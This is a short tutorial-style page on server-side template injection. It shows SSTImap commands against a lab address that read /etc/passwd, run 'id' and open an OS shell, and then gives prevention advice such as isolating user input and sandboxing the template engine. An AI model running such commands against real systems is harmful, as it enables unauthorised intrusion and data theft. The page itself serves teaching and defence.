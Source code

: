 Tools for getting help on SSTI vulns:

https://github.com/vladko312/SSTImap
```shell-session
$ git clone https://github.com/vladko312/SSTImap

$ cd SSTImap

$ pip3 install -r requirements.txt

$ python3 sstimap.py 
```

```shell-session
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test
```

```shell-session
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
```

```shell-session
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id
```

```shell-session
$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

### Preventing Server-Side Template Injection (SSTI)

To effectively prevent SSTI vulnerabilities, it’s essential to ensure that **user input is never inserted directly into the template code** passed to the rendering function. By strictly controlling how templates and user data are handled, we can avoid the risk of executing injected malicious code.

#### Key Prevention Strategies

1. **Isolate User Input**: Ensure user input is always provided as separate data, not as part of the template itself. Reviewing and securing code paths that handle templates can help prevent accidental injection of user data into templates before rendering.

2. **Controlled Template Modifications**: If the application requires users to edit or upload templates, enforce security hardening measures:
   - **Limit Functionality**: Remove dangerous functions and capabilities within the template engine that could enable remote code execution. This makes it harder for attackers to execute malicious code within templates.
   - **Isolated Execution Environment**: Run the template engine in a separate environment from the main web server. Using isolated environments like Docker containers provides additional security by containing potential exploits, preventing them from affecting the entire server.

These strategies help ensure that user input remains separate from template code, reducing the risk of SSTI by containing template rendering to a secure, controlled environment.